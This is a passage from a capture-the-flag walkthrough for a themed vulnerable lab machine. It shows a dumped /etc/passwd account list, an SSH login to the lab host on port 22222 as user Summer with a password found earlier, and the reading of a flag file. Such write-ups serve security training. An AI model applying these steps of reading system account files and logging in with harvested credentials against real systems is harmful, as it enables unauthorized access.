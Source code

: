 mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:996:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
{% endhighlight %}

I know that we have a password to one of these accounts, but to which one? Let's check it using the **ssh** port 22222.

{% highlight bash %}
root@kali:~# ssh -p 22222 Summer@10.0.2.15
Summer@10.0.2.15's password:
Last failed login: Wed Nov  1 21:17:04 AEDT 2017 from 10.0.2.4 on ssh:notty
There were 2 failed login attempts since the last successful login.
Last login: Wed Aug 23 19:20:29 2017 from 192.168.56.104
[Summer@localhost ~]$ whoami
Summer
{% endhighlight %}

It's working! Now we can take a look around the system.

{% highlight text %}
[Summer@localhost ~]$ ls -la
total 20
drwx------. 2 Summer Summer  99 Sep 15 11:49 .
drwxr-xr-x. 5 root   root    52 Aug 18 18:20 ..
-rw-------. 1 Summer Summer   1 Sep 15 11:51 .bash_history
-rw-r--r--. 1 Summer Summer  18 May 30 14:53 .bash_logout
-rw-r--r--. 1 Summer Summer 193 May 30 14:53 .bash_profile
-rw-r--r--. 1 Summer Summer 231 May 30 14:53 .bashrc
-rw-rw-r--. 1 Summer Summer  48 Aug 22 02:46 FLAG.txt
[Summer@localhost ~]$ more FLAG.txt
FLAG{Get off the high road Summer!} - 10 Points
{% endhighlight %}
